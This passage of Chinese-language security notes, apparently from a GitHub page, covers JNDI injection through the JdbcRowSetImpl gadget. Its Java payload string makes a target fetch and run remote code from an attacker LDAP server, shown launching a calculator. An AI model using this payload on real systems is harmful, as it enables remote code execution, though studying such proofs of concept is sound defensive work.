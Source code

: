 ![image-20220125143736373](img/image-20220125143736373.png)

##### JNDI 

###### 基于 JdbcRowSetImpl

利用条件

- 需出网，限制同JNDI

LDAP服务

- JNDIExploit

![image-20220125144600810](img/image-20220125144600810.png)

payload-弹计算器

```java
String poc = "!!com.sun.rowset.JdbcRowSetImpl\n dataSourceName: \"ldap://10.10.10.1:1389/62617369632F436F6D6D616E642F63616C63\"\n autoCommit: true";
```

测试效果

 ![image-20220125144652166](img/image-20220125144652166.png)
